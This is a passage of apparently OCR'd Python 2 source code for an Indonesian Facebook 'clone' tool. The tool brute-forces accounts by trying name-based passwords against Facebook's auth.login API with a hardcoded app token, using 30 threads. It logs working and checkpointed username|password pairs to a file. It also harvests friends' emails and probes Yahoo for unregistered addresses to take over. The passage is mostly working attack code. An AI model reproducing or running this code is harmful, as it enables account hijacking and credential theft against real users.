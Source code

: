 				if 'www.facebook.com' in q["error_msg"]:															print
'\x1b[1;96m[\x1b[1;93mCekpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass6															cek = open("out/super_cp.txt", "a")															cek.write(user+"|"+pass6+"\n")															cek.close()															cekpoint.append(user+pass6)														else:															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)															b = json.loads(a.text)															pass7 = b['last_name']+'1234'															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")															q = json.load(data)															if 'access_token' in q:																print '\x1b[1;96m[\x1b[1;92mBerhasil\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass7																oks.append(user+pass7)															else:																if 'www.facebook.com' in q["error_msg"]:																	print '\x1b[1;96m[\x1b[1;93mCekpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass7																	cek = open("out/super_cp.txt", "a")																	cek.write(user+"|"+pass7+"\n")																	cek.close()																	cekpoint.append(user+pass7)																																		except:			pass			p = ThreadPool(30)	p.map(main, id)	print 42*"\033[1;96m="	print '\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;92mSuccessful \033[1;97m....'	print"\033[1;96m[+] \033[1;92mTotal OK/\x1b[1;93mCP \033[1;91m: \033[1;92m"+str(len(oks))+"\033[1;97m/\033[1;93m"+str(len(cekpoint))	print("\033[1;96m[+] \033[1;92mYour CP File Saved \033[1;91m: \033[1;97mout/super_cp.txt")	raw_input("\n\033[1;96m[\033[1;97mEnter Back\033[1;96m]")	super() def grupsaya():	os.system('clear')	try:		toket=open('login.txt','r').read()	except IOError:		print"\033[1;96m[!] \x1b[1;91mToken tidak ditemukan"		os.system('rm -rf login.txt')		time.sleep(1)		login()	try:		os.mkdir('out')	except OSError:		pass	os.system('clear')	print logo	print 42*"\033[1;96m="	try:		uh = requests.get('https://graph.facebook.com/me/groups?access_token='+toket)		gud = json.loads(uh.text)		for p in gud['data']:			nama = p["name"]			id = p["id"]			f=open('out/Grupid.txt','w')			listgrup.append(id)			f.write(id + '\n')			print "\033[1;96m[\033[1;92mGroup\033[1;96m]\x1b[1;97m "+str(id)+" \x1b[1;96m=>\x1b[1;97m "+str(nama)		print 42*"\033[1;96m="		print"\033[1;96m[+] \033[1;92mTotal Group \033[1;91m:\033[1;97m %s"%(len(listgrup))		print("\033[1;96m[+] \033[1;92mTersimpan \033[1;91m: \033[1;97mout/Grupid.txt")		f.close()		raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")		menu()	except (KeyboardInterrupt,EOFError):		print("\033[1;96m[!] \x1b[1;91mTerhenti")		raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")		menu()	except KeyError:		os.remove('out/Grupid.txt')		print('\033[1;96m[!] \x1b[1;91mGroup tidak ditemukan')		raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")		menu()	except requests.exceptions.ConnectionError:		print"\033[1;96m[✖] \x1b[1;91mTidak ada koneksi"		keluar()	except IOError:		print "\033[1;96m[!] \x1b[1;91mError"		raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")		menu() def yahoo():	global toket	os.system('clear')	try:		toket=open('login.txt','r').read()	except IOError:		print"\033[1;91m[!] Token not found"		os.system('rm -rf login.txt')		time.sleep(1)		login()	os.system('clear')	print logo	print 42*"\033[1;96m="	print "\x1b[1;96m[\x1b[1;92m1\x1b[1;96m]\x1b[1;37m Clone dari daftar teman"	print "\x1b[1;96m[\x1b[1;92m2\x1b[1;96m]\x1b[1;36m Clone dari teman public"	print "\x1b[1;96m[\x1b[1;92m3\x1b[1;96m]\x1b[1;35m Clone dari grup"	print "\x1b[1;96m[\x1b[1;92m4\x1b[1;96m]\x1b[1;93m Clone dari file"	print "\x1b[1;96m[\x1b[1;91m0\x1b[1;96m]\x1b[1;91m Kembali"	clone() def clone():	embuh = raw_input("\n\x1b[1;97m >>> ")	if embuh =="":		print "\033[1;96m[!] \x1b[1;91mFill in correctly"	elif embuh =="1":		clone_dari_daftar_teman()	elif embuh =="2":		clone_dari_teman()	elif embuh =="3":		clone_dari_member_group()	elif embuh =="4":		clone_dari_file()	elif embuh =="0":		menu()	else:		print "\033[1;96m[!] \x1b[1;91mFill in correctly"		 def clone_dari_daftar_teman():	global toket	os.system('reset')	try:		toket=open('login.txt','r').read()	except IOError:		print"\033[1;91m[!] Token Invalid"		os.system('rm -rf login.txt')		time.sleep(1)		login()	try:		os.mkdir('out')	except OSError:		pass	os.system('clear')	print logo	mpsh = []	jml = 0	print 42*"\033[1;96m="	jalan('\033[1;96m[\x1b[1;97m✺\x1b[1;96m] \033[1;37mTake email \033[1;97m...')	teman = requests.get('https://graph.facebook.com/me/friends?access_token='+toket)	kimak = json.loads(teman.text)	save = open('out/MailVuln.txt','w')	jalan('\033[1;96m[\x1b[1;32m✺\x1b[1;96m] \033[1;32mStart \033[1;97m...')	print ('\x1b[1;96m[!] \x1b[1;31mStop CTRL+z')	print 42*"\033[1;97m="	for w in kimak['data']:		jml +=1		mpsh.append(jml)		id = w['id']		nama = w['name']		links = requests.get("https://graph.facebook.com/"+id+"?access_token="+toket)		z = json.loads(links.text)		try:			mail = z['email']			yahoo = re.compile(r'@.*')			otw = yahoo.search(mail).group()			if 'yahoo.com' in otw:				br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")				br._factory.is_html = True				br.select_form(nr=0)				br["username"] = mail				klik = br.submit().read()				jok = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*')				try:					pek = jok.search(klik).group()				except:					continue				if '"messages.ERROR_INVALID_USERNAME">' in pek:					save.write("Nama: "+ nama +"ID :" + id +"Email: "+ mail + '\n')					print("\033[1;37m[\033[1;92mVuln\033[1;37m] \033[1;92m" +mail+" \033[1;96m[\x1b[1;97m"+nama)					berhasil.append(mail)		except KeyError:			pass	print 42*"\033[1;96m="	print '\033[1;9m[\033[1;97m✓\033[1;96m] \033[1;92mSuccessful